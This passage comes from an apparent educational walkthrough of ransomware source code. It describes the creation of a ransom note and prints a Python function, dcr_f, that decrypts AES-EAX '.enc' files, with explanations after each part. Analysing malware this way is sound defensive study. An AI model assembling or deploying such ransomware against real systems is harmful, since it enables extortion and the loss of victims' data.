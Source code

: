 Creates a `RANSOM_NOTE.txt` file in the target directory, informing the victim that their files have been encrypted.

### **Why is it used?**

This is a common characteristic of ransomware, where attackers instruct the victim to pay a ransom to recover their files.

* * *

**5\. File Decryption**
-----------------------

### **a. Function** `**dcr_f**` **(Decrypt Files)**

    # Function to decrypt files (Obfuscated)
    def dcr_f(f, k):
        try:
            chk_k(k)
            with open(f, 'rb') as ef:
                nonce, tag, ct = [ef.read(x) for x in (16, 16, -1)]
                cipher = AES.new(k, AES.MODE_EAX, nonce=nonce)
                data = cipher.decrypt_and_verify(ct, tag)
    
            with open(f.replace(".enc", ""), 'wb') as of:
                of.write(data)
            print(f"File '{f}' decrypted.")
        except FileNotFoundError:
            logging.error(f"File not found: {f}")
        except PermissionError:
            logging.error(f"Permission denied: {f}")
        except ValueError as ve:
            logging.error(f"Validation error: {ve}")
        except Exception as e:
            logging.error(f"Error decrypting {f}: {e}")
    

### **What does it do?**

*   Reads the encrypted file (`.enc`).

*   Extracts the nonce, tag, and ciphertext.

*   Decrypts the content using AES in EAX mode.

*   Verifies data integrity using the tag.

*   Saves the decrypted file without the `.enc` extension.

### **Why is it used?**

This function is essential for restoring encrypted files. It demonstrates how symmetric encryption (AES) can be reversed with the correct key.
